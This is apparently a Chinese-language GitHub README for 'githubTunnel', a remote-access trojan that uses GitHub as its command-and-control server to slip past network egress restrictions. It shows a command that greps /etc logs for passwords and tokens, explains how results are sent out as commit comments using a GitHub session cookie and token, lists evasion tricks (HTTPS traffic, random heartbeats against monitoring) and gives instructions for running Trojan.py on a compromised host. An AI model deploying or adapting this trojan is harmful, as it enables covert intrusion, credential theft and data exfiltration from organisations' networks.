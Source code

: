 # githubTunnel
一个使用github作为控制域名的简单c&c木马。

github作为开发常用的域名，有大概率会被加入网络封禁白名单，因此可以使用github突破IDC--外网限制，实现下发命令，并回传结果。

# 下发命令
使用项目中[cmd.txt](https://github.com/Lonely-night/githubTunnel/blob/master/cmd.txt )文件下发命令
cmd.txt 文件内容如下：
duye_cmd: {find /etc/ -name "*.log"|xargs grep -E "pass|token"}
session: {jlIFqVDcuLBUedOIabZYb4zMPoIWwkj0E8bPMOzHkrmRjWD6}
token: {V1hjNlJg6DohGkaIhuxKH3Elwgz3j1sdwCcTRaSnw/VE7vCv3BzOTvcM9bwBVGRJXZbecitKBzhm+Z4oFS7TSg==}

其中 duye_cmd 设置木马执行的命令。session 和token为github的凭证，用来把命令执行结果上报至github。
session：是github网站的cookie中user_session的值
token： github提交评论的token 
，可以在 [commit](https://github.com/Lonely-night/githubTunnel/commit/c6602cec0951bfc7a13f4de5b0399911ec5fa1ae)界面提交一个评论，从请求中post参数获取。

# 回传结果
使用 https://github.com/Lonely-night/githubTunnel/blob/master/cmd.txt文件中定义github session、github token。 向指定commit，提交评论以实现
结果回传。
https://github.com/Lonely-night/githubTunnel/commit/41811231fd220ae9af2038ec1fcbb50819aaedf9


# 网络监测绕过
1. 使用https加密通讯，绕过网络层监测。
2. 使用0 - 60 随机心跳，绕过网络层心跳监测。

# 使用
修改Trojan.py 文件中
control_url = "获取命令的地址" 
response_url = "会写结果的项目地址"
commit_id = "回写结果的commit_id"

在被控端执行

```bash
python Trojan.py &
```
结果会在
https://github.com/账号/项目/commit/回写结果的commit_id 地址回显。

示例：
https://github.com/Lonely-night/githubTunnel/commit/41811231fd220ae9af2038ec1fcbb50819aaedf9#comments

